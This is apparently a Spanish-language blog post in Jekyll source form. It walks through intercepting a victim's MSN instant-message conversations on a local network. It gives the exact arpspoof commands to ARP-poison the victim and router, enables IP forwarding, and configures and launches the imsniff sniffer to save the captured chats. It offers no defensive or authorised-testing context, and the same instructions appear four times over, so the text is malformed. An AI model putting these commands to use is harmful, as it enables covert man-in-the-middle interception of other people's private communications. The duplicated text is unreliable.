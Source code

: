 ```yaml
---
layout: post
title: "imsniff"
date: 2014-04-03 14:51
comments: true
categories: 
---
```

Capturar paquetes relacionados con el protocolo MSN . Su uso pasa por el envenenamiento arp, situando nuestra máquina entre la victima y el router lanzando en varias terminales y sin cerrarlas:

>\# arpspoof -i eth0 -t 192.168.1.15 192.168.1.1 

>\# arpspoof -i eth0 -t 192.168.1.1 192.168.1.15 

Activar forwarding para que los paquetes vayan a su verdadero dueño: 

>\# echo 1 > /proc/sys/net/ipv4/ip_forward 

Crear una carpeta donde guardar los datos: 

>$ mkdir snifadas 

Modificar el archivo de configuración a partir de la  propia documentación :: 

>\# cp /usr/share/doc/imsniff/examples/imsniff.conf.sample /etc/imsniff.conf 

>\# nano /etc/imsniff.conf 

daemonize = 0 

promisc = 0 

verbose = 2 

chatdir = /home/USER/snifadas/chats 

debugdir = /home/USER/snifadas/debug 

interface eth0 

Los directorios "chats" y "debug" los crea la misma aplicación. 

Lanzar el sniffer de conversaciones msn: 

>\# imsniff

imsniff 

Capturar paquetes relacionados con el protocolo MSN . Su uso pasa por el envenenamiento arp, situando nuestra máquina entre la victima y el router lanzando en varias terminales y sin cerrarlas:

>\# arpspoof -i eth0 -t 192.168.1.15 192.168.1.1 

>\# arpspoof -i eth0 -t 192.168.1.1 192.168.1.15 

Activar forwarding para que los paquetes vayan a su verdadero dueño: 

>\# echo 1 > /proc/sys/net/ipv4/ip_forward 

Crear una carpeta donde guardar los datos: 

>$ mkdir snifadas 

Modificar el archivo de configuración a partir de la  propia documentación :: 

>\# cp /usr/share/doc/imsniff/examples/imsniff.conf.sample /etc/imsniff.conf 

>\# nano /etc/imsniff.conf 

daemonize = 0 

promisc = 0 

verbose = 2 

chatdir = /home/USER/snifadas/chats 

debugdir = /home/USER/snifadas/debug 

interface eth0 

Los directorios "chats" y "debug" los crea la misma aplicación. 

Lanzar el sniffer de conversaciones msn: 

>\# imsniff

imsniff 

Capturar paquetes relacionados con el protocolo MSN . Su uso pasa por el envenenamiento arp, situando nuestra máquina entre la victima y el router lanzando en varias terminales y sin cerrarlas:

>\# arpspoof -i eth0 -t 192.168.1.15 192.168.1.1 

>\# arpspoof -i eth0 -t 192.168.1.1 192.168.1.15 

Activar forwarding para que los paquetes vayan a su verdadero dueño: 

>\# echo 1 > /proc/sys/net/ipv4/ip_forward 

Crear una carpeta donde guardar los datos: 

>$ mkdir snifadas 

Modificar el archivo de configuración a partir de la  propia documentación :: 

>\# cp /usr/share/doc/imsniff/examples/imsniff.conf.sample /etc/imsniff.conf 

>\# nano /etc/imsniff.conf 

daemonize = 0 

promisc = 0 

verbose = 2 

chatdir = /home/USER/snifadas/chats 

debugdir = /home/USER/snifadas/debug 

interface eth0 

Los directorios "chats" y "debug" los crea la misma aplicación. 

Lanzar el sniffer de conversaciones msn: 

>\# imsniff

imsniff 

Capturar paquetes relacionados con el protocolo MSN . Su uso pasa por el envenenamiento arp, situando nuestra máquina entre la victima y el router lanzando en varias terminales y sin cerrarlas:

>\# arpspoof -i eth0 -t 192.168.1.15 192.168.1.1 

>\# arpspoof -i eth0 -t 192.168.1.1 192.168.1.15 

Activar forwarding para que los paquetes vayan a su verdadero dueño: 

>\# echo 1 > /proc/sys/net/ipv4/ip_forward 

Crear una carpeta donde guardar los datos: 

>$ mkdir snifadas 

Modificar el archivo de configuración a partir de la  propia documentación :: 

>\# cp /usr/share/doc/imsniff/examples/imsniff.conf.sample /etc/imsniff.conf 

>\# nano /etc/imsniff.conf 

daemonize = 0 

promisc = 0 

verbose = 2 

chatdir = /home/USER/snifadas/chats 

debugdir = /home/USER/snifadas/debug 

interface eth0 

Los directorios "chats" y "debug" los crea la misma aplicación. 

Lanzar el sniffer de conversaciones msn: 

>\# imsniff

